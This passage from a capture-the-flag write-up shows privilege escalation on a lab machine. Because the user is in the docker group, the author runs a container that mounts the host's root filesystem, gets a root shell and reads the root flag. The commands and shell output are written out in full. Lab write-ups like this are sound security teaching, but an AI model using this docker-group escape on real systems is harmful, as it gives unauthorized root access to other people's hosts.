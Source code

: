 
Linenum agrees that this is interesting:



    ...[snip]...
    We're a member of the (docker) group - could possibly misuse these rights!:
    uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
    ...[snip]...



### root File System Access Via docker Group

To get access to the entire local file system, we'll use docker to run
one of the images, and we're going to mount the local file system root
in that image, and give ourselves a shell to that system.

`docker run` looks like this:
`$ docker run [OPTIONS] IMAGE[:TAG|@DIGEST][COMMAND] [ARG...]`
[ref](https://docs.docker.com/engine/reference/run/#general-form)

So we'll run `docker run -v /:/hostOS -i -t rodhes bash`:

-   `-v /:/hostOS` - mount the host's `/` as `/hostOS` inside the image
-   `-i` - interactive
-   `-t` - create a tty
-   `rodhes` - the name of the image to run, got from `docker ps above`
    -   I picked this one because it doesn't have shell access by
        others, so it's less likely to accidentally give the root flag
        to someone else
-   `bash` - command to run

And this does give root access:



    prometheus@olympus:/dev/shm$ docker run -v /:/hostOS -i -t  rodhes bash
    cat: /etc/hostip: No such file or directory

    root@6e53f07f626a:/# id
    uid=0(root) gid=0(root) groups=0(root)

    root@6e53f07f626a:/# cd /hostOS/

    root@6e53f07f626a:/hostOS# ls
    bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old



### root.txt

And with full read access to the file system we can grab the flag:



    root@6e53f07f626a:/hostOS/root# wc -c root.txt
    33 root.txt
